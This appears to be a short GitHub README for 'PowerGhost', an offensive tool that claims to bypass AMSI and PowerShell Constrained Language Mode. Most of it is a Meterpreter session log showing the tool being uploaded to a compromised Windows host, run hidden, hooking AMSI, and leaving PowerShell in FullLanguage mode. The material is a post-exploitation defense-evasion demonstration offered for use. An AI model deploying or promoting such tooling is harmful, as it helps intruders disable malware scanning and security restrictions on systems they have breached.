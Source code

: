 # PowerGhost
A custom run space to bypass AMSI and Constrained Language mode in PowerShell.

## Example running in Meterpreter

```
meterpreter > upload PowerGhost64.exe
[*] uploading  : PowerGhost64.exe -> PowerGhost64.exe
[*] Uploaded 6.00 KiB of 6.00 KiB (100.0%): PowerGhost64.exe -> PowerGhost64.exe
[*] uploaded   : PowerGhost64.exe -> PowerGhost64.exe
meterpreter > execute -H -i -f "PowerGhost64.exe"
Process 5276 created.
Channel 8 created.

PowerGhost by PlackyHacker
--------------------------

Type 'exit' to close.

[+] Hooking AMSI for bypass...
PG C:\Users\Placky> $ExecutionContext.SessionState.LanguageMode
FullLanguage
PG C:\Users\Placky>
```
